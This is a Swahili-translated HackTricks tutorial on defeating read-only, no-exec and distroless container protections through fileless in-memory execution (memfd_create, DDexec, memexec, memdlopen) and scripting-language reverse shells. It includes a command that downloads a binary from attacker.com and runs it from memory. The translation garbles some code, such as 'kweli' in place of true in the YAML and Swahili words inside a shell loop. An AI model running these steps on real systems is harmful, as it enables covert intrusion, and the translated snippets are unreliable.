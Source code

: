 # Kudukua ulinzi wa FS: soma-tu / hakuna-kutekeleza / Distroless

<details>

<summary><strong>Jifunze kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa una nia ya **kazi ya kudukua** na kudukua yasiyodukika - **tunakupa kazi!** (_inahitajika uwezo wa kuandika na kuzungumza kwa ufasaha wa Kipolishi_).

{% embed url="https://www.stmcyber.com/careers" %}

## Video

Katika video zifuatazo unaweza kupata mbinu zilizotajwa kwenye ukurasa huu zilizoelezwa kwa undani zaidi:

* [**DEF CON 31 - Kuchunguza Ubadilishaji wa Kumbukumbu ya Linux kwa Siri na Kuepuka**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Mashambulizi ya siri na DDexec-ng & in-memory dlopen() - Kufuatilia HackTricks 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Soma-tu / hakuna-kutekeleza hali

Inazidi kuwa kawaida kupata mashine za linux zilizomwekwa na **ulinzi wa mfumo wa faili wa soma-tu (ro)**, hasa katika vyombo. Hii ni kwa sababu ya kuendesha chombo na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: kweli`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: kweli
</strong>    command: ["sh", "-c", "wakati wa kweli; fanya usingizi 1000; fanyika"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itakuwa inaweza kuandikwa, hivyo ni uongo hatuwezi kuandika chochote kwenye diski. Walakini, folda hii itakuwa **imewekwa na ulinzi wa hakuna-kutekeleza**, hivyo ikiwa unapakua binary hapa **hutaweza kuitekeleza**.

{% hint style="warning" %}
Kutoka mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au wachunguzi kama `kubectl`).
{% endhint %}

## Kudukua Rahisi: Scripts

Tafadhali kumbuka nilitaja binaries, unaweza **kutekeleza skripti yoyote** ikiwa tu mkalimani yupo ndani ya chombo, kama **skripti ya shell** ikiwa `sh` iko au **skripti ya python** ikiwa `python` imefungwa.

Hata hivyo, hii pekee haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kutekeleza.

## Kudukua Kumbukumbu

Ikiwa unataka kutekeleza binary lakini mfumo wa faili hauruhusu hivyo, njia bora ya kufanya hivyo ni kwa **kutekeleza kutoka kumbukumbu**, kwani **ulinzi hauwafai huko**.

### Kudukua FD + kutekeleza syscall

Ikiwa una injini za skripti zenye nguvu ndani ya chombo, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary kutekeleza kutoka kumbukumbu, kuhifadhi kwenye maelezo ya faili ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo kisha itaomba **syscall ya exec** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kumpitisha binary na itazalisha skripti katika lugha iliyotajwa na **binary iliyosimbwa na b64 encoded** pamoja na maagizo ya **kudecode na kudecompress** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito wa **syscall ya exec** kuiendesha.

{% hint style="warning" %}
Hii haitafanya kazi katika lugha zingine za skripti kama PHP au Node kwa sababu hawana njia ya msingi ya kuita **syscall za raw** kutoka kwa skripti, hivyo haiwezekani kuita `create_memfd` kuunda **fd ya kumbukumbu** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwa sababu hautaruhusiwa kuitekeleza kwa sababu ya **ulinzi wa hakuna-kutekeleza** utatumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuwezesha **kurekebisha kumbukumbu ya mchakato wako mwenyewe** kwa kubadilisha **`/proc/self/mem`** yake.

Hivyo, **kudhibiti kanuni ya mkusanyiko** inayotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato kutekeleza **kanuni yoyote ya kupindukia**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili ya DDexec. Ni **DDexec shellcode demonised**, kwa hivyo kila wakati unapotaka **kuendesha binary tofauti** hauitaji kuzindua DDexec tena, unaweza tu kuendesha shellcode ya memexec kupitia mbinu ya DDexec na kisha **kuwasiliana na deamon huyu kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano jinsi ya kutumia **memexec kuendesha binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa lengo kama la DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu njia **rahisi zaidi ya kupakia binaries** kwenye kumbukumbu kisha kuziendesha baadaye. Inaweza kuruhusu hata kupakia binaries zenye mahitaji.

## Kizuizi cha Distroless

### Distroless ni nini

Vyombo vya distroless vinavyo **vipengele vichache sana vinavyohitajika kuendesha programu au huduma maalum**, kama maktaba na mahitaji ya runtime, lakini vinaweka pembeni vipengele vikubwa kama meneja wa pakiti, shell, au zana za mfumo.

Lengo la vyombo vya distroless ni **kupunguza eneo la mashambulizi ya vyombo kwa kufuta vipengele visivyo vya lazima** na kupunguza idadi ya mapungufu yanayoweza kutumiwa.

### Reverse Shell

Katika chombo cha distroless unaweza **hata usipate `sh` au `bash`** kupata shell ya kawaida. Pia hutapata binaries kama `ls`, `whoami`, `id`... kila kitu unachoruka kawaida kwenye mfumo.

{% hint style="warning" %}
Kwa hivyo, **hutaweza** kupata **reverse shell** au **kuorodhesha** mfumo kama kawaida.
{% endhint %}

Hata hivyo, ikiwa chombo kilichoharibiwa kinakimbia kwa mfano wavuti ya flask, basi python imewekwa, na kwa hivyo unaweza kupata **Python reverse shell**. Ikiwa inakimbia node, unaweza kupata Node rev shell, na vivyo hivyo na **lugha za skripti** zaidi.

{% hint style="success" %}
Kwa kutumia lugha ya skripti unaweza **kuorodhesha mfumo** kwa kutumia uwezo wa lugha.
{% endhint %}

Ikiwa hakuna ulinzi wa **`read-only/no-exec`** unaweza kutumia reverse shell yako kudanganya **kuandika kwenye mfumo wa faili binaries zako** na **kuwatekeleza**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya vyombo ulinzi huu kawaida utakuwepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzidi**.
{% endhint %}

Unaweza kupata **mifano** jinsi ya **kutumia baadhi ya mapungufu ya RCE** kupata **reverse shells** za lugha za skripti na kutekeleza binaries kutoka kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
